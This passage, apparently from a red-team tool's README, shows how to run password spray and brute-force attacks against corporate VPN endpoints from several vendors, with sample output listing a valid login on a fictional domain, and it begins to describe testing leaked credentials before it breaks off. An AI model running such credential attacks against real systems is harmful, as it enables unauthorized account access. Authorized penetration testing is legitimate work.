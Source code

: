 #### Perform a password spray or bruteforce attack against VPN endpoints

To perform a password spray or even bruteforce attack, the only required 
resource is a password list in the form of a text file, with one password 
per line.

```
python manage.py -w workspace1 vpn -c attack -P passwords.txt

   ,d#####F^      ,yy############yy       ^9#######,
  ,######"      y###################by      ^9######,
  ######^     y#####F""       ^"9######y      "######]
 d#####^    ,#####" by klezVirus ^9#####,     ^######,
,#####]    ,####F    yy#######y,    ^9####b     ^######
[#####     ####F   ,###F""'"9####,    9####]     9#####
#####F    [####   ,##F^  yy   "###b    9####,    ^#####]
#####]    [###]   ###  dF""#b  ^###]   ^####]     #####]
9####b    [####   9##, 9bd [#]  [##b    #####     [#####
[#####     ####,   9##y, ,y##^  d##F    #####     [####]
 #####b    ^####y   ^"#####"   d###^   ,####]     d#####
 [#####,    ^####by          ,d###^    d####^     #####F
  9#####y     "#####byyyyyyd####F^    d####F     [#####9
   9#####b,     ""############"^    ,d####F     ,######
    ^######b,       ""'""'"^      ,d#####F      d#####F

[*] Choose an endpoint type to attack, or all to attack any supported endpoint
0 : cisco
1 : citrix
2 : citrixlegacy
3 : fortinet
4 : pulse
5 : sonicwall
6 : all
 $> 6
[*] Attacking vpn.evilcorp.com:443
  [-] elliot.alderson@evilcorp.com:MrRobot2021! is not valid.
  [+] tyrell.wellick@evilcorp.com:Joanna2021! is valid!
  [>] Found 1 valid logins
[*] Updating Db...
[+] Done
```

#### Perform a password spray or bruteforce using leaked credentials

As Vortex keeps track of credentials leaked on PwnDB, a user can select
to test all leaked credentials instead of providing a password file.

However, consider this behaviour is much different to a normal password spray.
In a normal password spraying attack, indeed, a single password is tried against 
all users. In a leaked credentials attack, the leaked credentials is tested against 
the specific user it was leaked with. So, as an example, if Vortex found
the leaks:


[1]: https://github.com/byt3bl33d3r/SprayingToolkit